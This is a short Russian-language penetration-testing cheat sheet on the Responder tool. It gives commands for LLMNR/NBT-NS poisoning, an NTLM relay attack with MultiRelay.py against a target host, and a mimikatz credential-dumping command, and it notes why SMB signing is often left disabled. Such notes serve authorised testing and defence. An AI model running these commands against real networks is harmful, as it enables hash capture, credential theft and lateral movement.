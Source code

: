 # Responder

### Intro

Responder — это травитель LLMNR, NBT-NS (Netbios Name Service) и MDNS со встроенным мошенническим сервером HTTP/SMB/MSSQL/FTP/LDAP аутентификации, поддерживающим NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP и Basic HTTP аутентификацию.

Это инструмент для поднятия серверов своих и проведения атак.

## Установка

$ apt-get install responder&#x20;

или git: [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder)

Из git все норм запускается без зависимостей (вроде).

## Использование

Перед запуском правим `Responder.conf`

### Через бинарь

Включить в режиме прослушивания: `responder -I eth0 -A` \
Включить в режиме poising (травим пакеты): `responder -I eth0 -wrFb`

### Через python

```
sudo python Responder.py -I eth0 -A
sudo python Responder.py -I eth0 -w -r -F -b
```

### Pass-the-Hash

После того как словили хеш, можем либо брутануть, либо relay-атаку на сторонний сервис провести, авторизуясь по перехваченному хешу (SMB signing дб отключен):\
В Responder.conf переставляем SMB и HTTP в OFF\
Запускаем `$ responder -I eth0`\
Запускаем \`$ python [MultiRelay.py](http://multirelay.py) -t \<IP target> -u ALL\`\
Ждем, пока жертва запросит доступ к третьему ресурсу -> вместо нее авторизуемся мы.

Фишка MultiRelay, что она даст не просто сессию, а сессию с доп модулями. Например:\
`mimikatz: #mimi sekurlsa::logonpasswords`\
Поиск других жертв: `#scan /16`

Замечания:\
\- Для MultiRelay пользователь-жертва, чьи креды используем, должен быть локальным администратором на том компе, что мы атакуем\
\- Если включен SMB signing - то забиваем и переходим к другому хосту. NTLM-relay не выйдет. \
\
Нюансы: \
почему не включают SMB signing: \
1\. Некоторые принтеры не поддерживают SMB-signing, что приводит к невозможности печати. \
2\. Значительное снижение производительности SMB при передаче больших файлов или множественному обращению к одному и тому же серверу несколькими пользователями
